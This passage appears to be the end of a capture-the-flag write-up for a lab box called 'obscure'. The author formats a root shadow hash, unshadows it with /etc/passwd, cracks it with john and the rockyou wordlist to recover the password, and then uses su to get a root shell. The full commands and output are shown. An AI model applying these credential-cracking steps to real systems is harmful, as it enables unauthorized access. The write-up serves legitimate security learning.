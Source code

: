 Let's take root's hash and crack it with `john` - but to do that, we first need to format the hash. Replace the newlines with ':' and add three more ':' at the end, like this:
```
root:$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:18226:0:99999:7:::
```
(You can take a look at your own `/etc/shadow` file to see how this string is formatted.)
  
Grab the `/etc/passwd` counterpart:
```
robert@obscure:~$ head /etc/passwd
root:x:0:0:root:/root:/bin/bash
```

Now `unshadow` the thing so that `john` can read it:
```
kali@kali:~$ sudo unshadow passwd shadow > hash
```
(Note the sequence: `passwd`, then `shadow`)

`john` the hash (Note: I've already set `john` to automatically use the `rockyou.txt` that comes with kali)
```
kali@kali:~$ cat hash 
root:$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:0:0:root:/root:/bin/bash
kali@kali:~$ sudo john hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 6 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 11 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 16 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 2 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/wordlists/rockyou.txt, rules:Wordlist
mercedes         (root)
```

Now that we have `root`'s password, we can `su` to `root`:
```
robert@obscure:~$ su - root
Password: 
root@obscure:~#
```

Hope you enjoyed the process as much as I did :). Much thanks to @clubby789 for making this box!
